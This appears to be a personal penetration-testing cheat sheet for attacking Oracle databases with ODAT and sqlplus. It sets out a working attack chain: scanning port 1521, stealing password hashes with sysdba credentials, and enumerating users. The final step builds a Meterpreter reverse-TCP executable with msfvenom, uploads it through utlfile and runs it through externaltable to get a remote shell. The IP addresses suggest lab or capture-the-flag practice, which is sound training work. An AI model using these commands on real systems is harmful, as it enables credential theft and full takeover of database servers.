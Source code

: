 ```yaml
---
title: Odat / Sqlplus
updated: 2023-11-16 03:00:16Z
created: 2023-11-15 00:43:44Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


### Use ODAT to scan the database
`odat all -s <targetIP> -p 1521`

### Once you have a username/password, rescan with and without --sysdba

`odat all -s <targetIP> -d XE -U username -P password --sysdba`

```
odat passwordstealer -s <targetIP> -d XE -U username -P password --sysdba --get-passwords
```

### Connect with sqlplus:
`sqlplus user/password@target:1521/XE`

`sqlplus user/password@target:1521/XE as sysdba`

`SELECT username FROM all_users ORDER BY username;`

`SELECT * FROM all_users ORDER BY created;`

`SELECT * from user_role_privs;`

***

# Upload a file (shell)
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=666 -f exe -o 666shell.exe`
`odat utlfile -s <targetIP> -U username -P password -d XE --sysdba --putFile \\temp 666shell.exe ~/scripts/666shell.exe`

**Execute the shell:**
`odat externaltable -s <targetIP> -U username -P password -d XE --sysdba --exec \\temp 666shell.exe`
